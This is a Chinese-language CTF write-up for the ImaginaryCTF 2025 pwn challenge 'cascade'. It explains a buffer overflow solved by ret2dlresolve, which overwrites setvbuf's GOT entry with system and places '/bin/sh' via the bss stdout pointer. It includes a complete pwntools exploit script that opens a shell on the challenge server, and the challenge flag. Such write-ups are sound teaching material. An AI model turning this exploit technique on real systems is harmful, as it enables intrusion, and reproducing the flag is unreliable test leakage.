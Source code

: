 ```yaml
---
title: "Write-ups: ImaginaryCTF 2025"
published: 2025-09-19
updated: 2025-09-19
description: "Write-ups for ImaginaryCTF 2025 pwn aspect."
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# cascade

## Information

- Category: Pwn
- Difficulty: Medium
- Points: 292

## Description

> just a buffer overflow, right?

## Write-up

64 字节的缓冲区，512 字节的输入，Partial RELRO，没 gadgets，没 libc……当时想到的就是打 `ret2dlresolve`，解析 system，最后虽然我成功带着参数进入了 system，并且执行 system 的过程中没有出现问题，但是却并没有得到 shell 。很费解，只记得当时调试到凌晨三点都没找到问题，可惜我已经把之前的 exp 删掉了……

后来看了下官方的 wp，也是 ret2dlresolve，并且和我一样都是用 pwntools 直接生成的 fake structures，甚至都是解析的 system，唯一的区别是我当时直接把 system 的参数也写到结构体里面了，当时也没搞明白是为啥，明明没有 rdi gadget 的，但它却可以自动设置一个参数，我也没用 rop 功能，就是手动调用。而官方 wp 是手动设置的参数。当时我并没有找到手动设置参数的方法……复现的时候才发现，原来那么简单。

其实我复现官方 wp 的时候，发现本地也还是打不通，虽然也成功执行了 system，不禁让我怀疑我当时是不是只要远程测试一下说不定就通了，我艹哦，感觉损失了一个亿，好难过……

ropper 发现，程序并没有控制参数的 gadgets，所以我们就算能解析出来 system 的地址也没用，还得想办法给它传参。

这好办，注意到 main 函数调用了两个 `setvbuf`，它们第一个参数都来自 bss 段：

```asm ins={10-21}
; Attributes: bp-based frame

; int __fastcall main(int argc, const char **argv, const char **envp)
public main
main proc near
; __unwind {
endbr64
push    rbp
mov     rbp, rsp
mov     rax, cs:stdout@GLIBC_2_2_5
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setvbuf
mov     rax, cs:stdin@GLIBC_2_2_5
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setvbuf
mov     eax, 0
call    vuln
mov     eax, 0
pop     rbp
retn
; } // starts at 40117B
main endp

_text ends
```

那我们只要能控制 bss 中 `stdin` 或者 `stdout` 的值就能控制 rdi 了。好巧不巧，没开 PIE，~这就是隐藏的人和产生的地利。~

接着思考应该让 ret2dlresolve 修改哪个 got 项呢？观察下面的 main 函数反编译代码，我们看到最开始调用了两个 setvbuf 。结合上面设置参数的方法，如果我们让 dlresolve 将解析出来的 system 地址写入 setvbuf 的 got 项，那我们只要返回到 main 就可以再次调用 setvbuf，而调用 setvbuf 会先设置参数，然后调用 system 。

策略就是这样，还是很简单的。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  vuln();
  return 0;
}
```

:::important
下面这个 payload 需要注意的地方是，`data_addr` 的地址我们可以在将 dlresolve payload 读进去之后动调确定，然后第二次 read 读入的 RBP 一定要设置的大点，不然后面在执行 dlresolve 解析的时候那些函数的 prologues 会将 RSP 缩小到只读地址，就会导致非法访问从而 abort 。
:::

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    Ret2dlresolvePayload,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./vuln"
HOST, PORT = "cascade.chal.imaginaryctf.org", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
rop = ROP(elf)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    read = 0x401162
    dlresolve = Ret2dlresolvePayload(
        elf=elf,
        symbol="system",
        args=[],
        data_addr=0x404070,
        resolution_addr=elf.got["setvbuf"],
    )
    payload = flat(
        b"A" * 64,
        elf.sym["stdout"] + 0x40,
        read,
    ).ljust(0x200 - 1, b"\x00")

    raw_input("DEBUG")
    target.sendline(payload)

    rop.ret2dlresolve(dlresolve)
    rop.raw(rop.ret)
    rop.main()
    target.success(rop.dump())

    payload = flat(
        elf.sym["stdout"] + 0x8,  # /bin/sh address
        b"/bin/sh\x00",
        b"A" * 0x30,
        0x404F40,  # rbp
        read,
        dlresolve.payload,
    ).ljust(0x200 - 1, b"\x00")
    target.sendline(payload)

    payload = flat(
        b"A" * 0x40,
        b"B" * 0x8,  # rbp
        rop.chain(),
    ).ljust(0x200 - 1, b"\x00")
    target.sendline(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`ictf{i_h0pe_y0u_didnt_use_ret2dl_94b51175}`]
